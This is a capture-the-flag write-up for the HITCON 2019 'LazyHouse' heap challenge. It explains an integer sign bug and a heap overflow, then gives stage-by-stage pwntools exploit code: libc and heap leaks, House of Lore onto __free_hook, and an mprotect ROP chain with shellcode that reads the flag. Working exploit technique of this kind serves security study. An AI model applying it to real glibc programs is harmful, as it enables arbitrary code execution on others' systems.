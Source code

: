 # HITCON 2019 Quals LazyHouse Writeup

## Description

My teammate, Lays, wants a house. Can you buy one for him?
flag: `/home/lazyhouse/flag`

`nc 3.115.121.123 5731`

## Analysis

The problem is just a simple **menu heap challenge**, with some **seccomp rules**. (like `execve` being blocked) In this challenge, we can allocate, free, print chunks, as well as **two chances of modification + 32 byte overflow, and 1 malloc chance**.

The allocation of chunk needs size and money, where size is bigger than `0x7f`, and money is bigger than `218*size`. The allocation uses calloc to get chunk, so it doesn't use tcache in allocation. Moreover, the number of entries in chunk list is 8, so we can get 8 different chunks in maximum.

Freeing chunks refunds money of `size*64`, and it deletes chunk from the bss list, so it's impossible to free same chunk multiple times.

We can print chunks with `write` function if the chunk is in the house list. Also, we have 2 chances to upgrade house, which allows us to modify content of chunk + 32 bytes of heap overflow. We can also allocate chunk with size `0x220`, with malloc once.

## Bug

There is a bug in buying house, which allows us to **buy houses with negative size**. In buying house, it compares unsigned size with signed `0x7f`, so we can give size with negative value. However, we need to ensure that `218*size` is lesser than our money, since it performs unsigned comparison.

Also, there is an intended bug in upgrading house, which allows us to do **32 byte heap overflow** twice.

## Scenario

### Money cheat

Because unsigned size value we give in buying house is compared with signed `0x7f`, we can give negative size to buy house, and sell it to increase our money. So we can make our money super large by buying house with proper size, and selling it.

```python
# money cheat
polluted_size = -(((219 << 64) / 218) % (1 << 64))
r.sendlineafter("choice: ", "1")
r.sendlineafter("Index:", "0")
r.sendlineafter("Size:", str(polluted_size))
r.interactive()
sell_house(0)
```

### Libc and tcache struct address leak by chunk overlapping 2

By using chunk overlapping 2 ([Link](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/overlapping_chunks_2.c)), we can leak libc and heap address. Two chunks are overlapped for later processes.

```python
# filling tcaches
for i in xrange(7):
  buy_house(0, 0x88, "Z")
  sell_house(0)
for i in xrange(7):
  buy_house(0, 0x98, "Z")
  sell_house(0)
for i in xrange(7):
  buy_house(0, 0x1f8, "Z")
  sell_house(0)

buy_house(0, 0x88, "A")
buy_house(1, 0x98, "B")
buy_house(2, 0x418, "C") # chunk to be overlapped
buy_house(3, 0x418, "D") # chunk to be overlapped
buy_house(4, 0x98, "E")
buy_house(5, 0x88, "F") # chunk to block coalescing

sell_house(4)
upgrade_house(0, "G"*0x88+p64(0xa0+0x420+0x420+1))
sell_house(1)

# leak libc address
buy_house(1, 0x98, "H") # size is 0x98 to write arena address in 2

libc_leak = u64(show_house(2)[0:8])
log.success("libc leak addr : "+hex(libc_leak))

libc_base = libc_leak - 0x7fb657832ca0 + 0x7fb65764e000
free_hook = libc_base + libc.symbols['__free_hook']
system = libc_base + libc.symbols['system']

# cleanup
sell_house(5)
sell_house(1)
sell_house(0)

# leak heap address
payload = "K"*(0x90+0xa0-8)
payload += p64(0x31) # fake size 0x31 (2nd entry of tcache entries)
payload += "L"*0x418
payload += p64(0x21) # fake size 0x21 (1st entry of tcache entries)
payload += "L"*0x18
payload += p64(0x401)
buy_house(4, 0x90+0xa0+0x420+0x420-8, payload)

# free two chunks to put them in tcache struct
sell_house(2) # to 0x31 entry
sell_house(3) # to 0x21 entry

# leak tcache struct addr (actually tcache key in 2.29)
heap_leak = u64(show_house(4)[0x138:0x140])
log.success("heap leak addr : "+hex(heap_leak))
chunk_base = heap_leak-0x10
```

### House of Lore to overwrite free hook

In tcache struct, tcache count list and tcache entries are adjacent. Because of that, we can create fake chunk structure in tcache struct, by putting 1st and 2nd tcache entry by freeing chunks size `0x20` and `0x30`, and fake size (in this case, `0x301`)by freeing chunks size `0x3a0` and `0x3b0`. After house of lore, tcache entries will be overwritten, so that we can do arbitrary write by buying super house.

```python
# house of lore
buy_house(4, 0x90+0xa0+0x420-8+0x10, "M")
buy_house(5, 0x1f8, "N")
buy_house(6, 0x1f8, "O")

sell_house(5)
buy_house(5, 0x4b8, "P")

payload = "Q"*(0x90+0xa0-8+0x10)
payload += p64(0x421) # restore chunk size
payload += p64(chunk_base+0x40) # fake chunk 2
payload += "R"*0x410
payload += p64(0x201) # for checking (looks like size)
payload += p64(libc_leak-96+592) # fake chunk 1
payload += p64(chunk_base+0x40) # fake chunk 1
upgrade_house(4, payload)

buy_house(1, 0x1f8, "S")

# pre process for super size house
buy_house(0, 0x217, "PLUS")
sell_house(0)

# fake size in tcache struct (0x301)
buy_house(0, 0x398, "Z")
sell_house(0)
for i in xrange(3):
  buy_house(0, 0x3a8, "Z")
  sell_house(0)

# overwrite tcache entries
target = free_hook
log.info ("target: " + hex(target))
payload = ""
payload += "/bin/sh\0"+p64(target)*17*2 
buy_house(0, 0x1f8, payload)
```

### call mprotect and run shellcode

Overwrite `__free_hook` to call mprotect, then run shellcode.

```python
xchg_gadget = libc_base + 0x0000000000158023
call_mprotect = libc_base + 0x0000000000117590
how_gadget = libc_base + 0x00000000001080fc
push_rdi_ret = libc_base + 0x000000000004c745
log.info ("b * {}".format (hex(how_gadget)))
ss = p64(how_gadget)
buy_super_house(ss)

pay = p64(call_mprotect) + p64(heap_leak + 0x4ff0) 
context.arch = 'amd64'
context.os = 'linux'

sc = asm(shellcraft.amd64.open ("/home/lazyhouse/flag", 0))
sc += asm(shellcraft.amd64.read ('rax', 'rsp', 100))
sc += asm(shellcraft.amd64.write (1, 'rsp', 100))
pay2 = p64(heap_leak+0x4220) + "\x90" * 0x20 + sc
print len (pay2)
buy_house (2, 0x850, "ASDF")
buy_house (7, 0x200, pay)
buy_house (3, 0x200, pay2)

r.sendafter("choice: ", "3".ljust(0x20, "b"))
r.sendafter("Index:", "7".ljust(32,"a"))
#sell_house(0)
sell_house (3)
r.interactive()
```

### Full code

[Link]([https://github.com/candymate/pwn/blob/master/HITCON%202019%20Quals/solver.py](https://github.com/candymate/pwn/blob/master/HITCON 2019 Quals/solver.py))

